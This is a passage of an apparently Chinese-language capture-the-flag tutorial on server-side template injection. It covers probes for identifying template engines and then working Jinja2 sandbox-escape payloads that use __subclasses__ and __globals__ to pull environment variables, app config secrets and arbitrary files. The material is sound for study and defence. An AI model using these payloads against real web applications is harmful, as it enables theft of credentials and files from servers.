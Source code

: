 ```
${7*7}.{{7*7}}

smarty=Hello ${7*7}
Hello 49
twig=Hello {{7*7}}
Hello 49
```
检测到模板注入漏洞后，需要准确识别模板引擎的类型。神器Burpsuite 自带检测功能，并对不同模板接受的 payload 做了一个分类，并以此快速判断模板引擎：


## 4.漏洞利用
### 1.python沙盒逃逸
#### 1.config
```
{{config}}可以获取当前设置，如果题目类似app.config ['FLAG'] = os.environ.pop（'FLAG'），那可以直接访问{{config['FLAG']}}或者{{config.FLAG}}得到flag
```
#### 2.self
```
{{self}} ⇒ <TemplateReference None>
{{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config
```
#### 3.""、[]、()等数据结构
```
主要目的是配合__class__.__mro__[2]这样找到object类
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG']}}
```
#### 4、url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config等

如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current_app等）

例如：
```
{{url_for.__globals__['current_app'].config.FLAG}}

{{get_flashed_messages.__globals__['current_app'].config.FLAG}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```
### 2.文件读取
```
#获取''字符串的所属对象
>>> ''.__class__
<class 'str'>

#获取str类的父类
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)

#获取object类的所有子类
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>...
#有很多类，后面省略
```
现在只需要从这些类中寻找需要的类，用数组下标获取，然后执行该类中想要执行的函数即可。比如第41个类是file类，就可以构造利用：
```
''.__class__.__mro__[2].__subclasses__()[40]('<File_To_Read>').read()
```
再比如，如果没有file类，使用类<class '_frozen_importlib_external.FileLoader'>，可以进行文件的读取。这里是第91个类。